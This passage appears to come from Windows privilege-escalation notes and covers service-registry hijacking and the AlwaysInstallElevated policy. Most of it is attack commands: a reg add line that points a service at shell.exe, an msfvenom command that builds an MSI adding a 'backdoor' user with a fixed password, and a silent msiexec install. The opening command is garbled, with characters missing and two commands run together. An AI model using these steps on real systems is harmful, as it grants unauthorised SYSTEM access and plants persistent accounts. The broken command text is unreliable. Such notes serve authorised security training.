 reg add HKLM\SYSTEM\CurrentControlSet\servicesegsvc /v ImagePath /t REG_EXPAND_SZ /d c:\Temp\shell.exe /fsc start regsvc

## Always Install Elevated

Windows can allow low privilege users to install a Microsoft Windows Installer Package (MSI) with system privileges by the AlwaysInstallElevated group policy.

![1*NRsKNG2G0-q0NHhjKfq6Ww.png](../_resources/007aead25d3f195fa3e9c39c4e67557c.png)
![1*NRsKNG2G0-q0NHhjKfq6Ww.png](../_resources/b416e9e7ce7aa838bb8bb58412c1e652.png)
Generate a `msfvenom `payload in `msi`format.
![1*LayC39op45amUIo0wdKHVg.png](../_resources/9d89f3f4c83bfeed066e9e9dbf5eb95b.png)
![1*LayC39op45amUIo0wdKHVg.png](../_resources/657f063b747c7d2e7f4d3c2a351bf54d.png)
`msfvenom -p windows/adduser USER=backdoor PASS=Pass@1234 -f msi -o setup.msi`
Install the payload using
msiexec /quiet /qn /i C:\Windows\Temp\setup.msi
![1*T5ozZt0p-cIKouFmxCL01g.png](../_resources/050a150ecbfe0790f6af74d306ba682d.png)
![1*T5ozZt0p-cIKouFmxCL01g.png](../_resources/84be2c6e3015928fe11a126269d7b479.png)
Backdoor user added after the MSI is installed
